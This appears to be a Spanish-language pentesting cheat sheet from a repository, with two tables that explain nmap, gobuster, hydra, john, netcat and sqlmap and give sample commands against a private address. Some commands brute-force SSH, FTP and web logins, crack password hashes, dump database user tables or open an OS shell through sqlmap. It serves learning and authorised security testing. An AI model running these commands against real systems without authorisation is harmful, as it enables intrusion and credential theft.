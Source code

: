 | Herramienta | Definición | Funcionalidad | Casos de Uso Comunes |
|-------------|------------|---------------|------------------------|
| **nmap**    | Escáner de redes para descubrir hosts y servicios. | Escanea puertos, detecta SO, servicios y versiones, ejecuta scripts de vulnerabilidad. | Escaneo de redes, auditorías de seguridad, identificación de servicios expuestos. |
| **gobuster**| Herramienta de fuerza bruta para descubrir rutas web y subdominios. | Busca directorios/archivos ocultos en servidores web mediante diccionarios. | Enumeración de rutas en sitios web (ej. /admin, /backup), descubrimiento de subdominios. |
| **hydra**   | Herramienta de fuerza bruta para protocolos de autenticación (SSH, FTP, HTTP). | Prueba combinaciones de credenciales (usuarios/contraseñas) contra servicios. | Ataques de diccionario a inicios de sesión (ej. SSH, FTP, paneles de administración). |
| **john**    | Descifrador de contraseñas offline (John the Ripper). | Rompe hashes de contraseñas usando ataques de diccionario, fuerza bruta o reglas. | Recuperación de contraseñas a partir de hashes (ej. archivos /etc/shadow de Linux). |
| **netcat**  | Utilidad de red para leer/escribir en conexiones TCP/UDP. | Transferencia de archivos, escaneo de puertos, binds/reverse shells. | Conexiones remotas, depuración de redes, creación de canales de comunicación. |
| **sqlmap**  | Herramienta automatizada de inyección SQL. | Detecta y explota vulnerabilidades SQL Injection en aplicaciones web. | Auditoría de seguridad web, extracción de datos de bases de datos. |


2. Comando Original                                      | Desglose                                                                                             | Alternativas (Variantes)                                                                                                      | Casos de Uso                                                             |
|------------------------------------------------------|----------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| **nmap -sV -sC -p- 192.168.1.100**                   | • -sV: Detección de versiones de servicios<br>• -sC: Ejecuta scripts de seguridad por defecto<br>• -p-: Escanea todos los puertos (1-65535)<br>• 192.168.1.100: IP objetivo | 1. nmap -sS -T4 192.168.1.100 (Escaneo SYN rápido)<br>2. nmap -O --osscan-limit 192.168.1.100 (Detección de SO)<br>3. nmap -sU -p 53,161 192.168.1.100 (Escaneo UDP específico) | Auditorías de red, identificación de servicios vulnerables, mapeo de infraestructura |
| **gobuster dir -u http://192.168.1.100 -w /usr/share/wordlists/dirb/common.txt** | • dir: Modo de directorios<br>• -u: URL objetivo<br>• -w: Ruta al diccionario                             | 1. gobuster dns -d ejemplo.com -w subdomains.txt (Búsqueda de subdominios)<br>2. gobuster dir -u http://192.168.1.100 -w diccionario.txt -x php,html -b 404 (Ignorar errores 404)<br>3. gobuster vhost -u http://192.168.1.100 -w hosts.txt (Búsqueda de hosts virtuales) | Descubrimiento de paneles de administración, archivos ocultos, rutas de APIs |
| **hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100** | • -l admin: Usuario objetivo<br>• -P: Diccionario de contraseñas<br>• ssh://: Protocolo atacado         | 1. hydra -L usuarios.txt -P contraseñas.txt ftp://192.168.1.100 (Ataque a FTP)<br>2. hydra 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=invalid" (Formularios web)<br>3. hydra -l admin -P diccionario.txt ssh://192.168.1.100 -t 4 -e ns (Prueba "nulo" y "usuario=contraseña") | Compromiso de credenciales en SSH, FTP, paneles web, pruebas de seguridad |
| **john --wordlist=rockyou.txt hashes.txt**           | • --wordlist: Diccionario de ataque<br>• hashes.txt: Archivo con hashes                              | 1. john --format=sha512crypt hashes.txt (Fuerza hash específico)<br>2. john --rules --wordlist=dict.txt hashes.txt (Ataque con reglas)<br>3. john --show hashes.txt (Mostrar contraseñas descifradas) | Recuperación de contraseñas desde bases de datos, archivos shadow, backups |
| **sqlmap -u "http://192.168.1.100/page?id=1" --dbs** | • -u: URL vulnerable<br>• --dbs: Enumerar bases de datos                                             | 1. sqlmap -u "http://192.168.1.100/page?id=1" --tables -D db_name (Enumerar tablas)<br>2. sqlmap -u "http://192.168.1.100/page?id=1" --dump -T users (Extraer datos)<br>3. sqlmap -u "http://192.168.1.100/page?id=1" --os-shell (Obtener shell remoto) | Explotación de inyección SQL, extracción de datos sensibles, auditorías web |
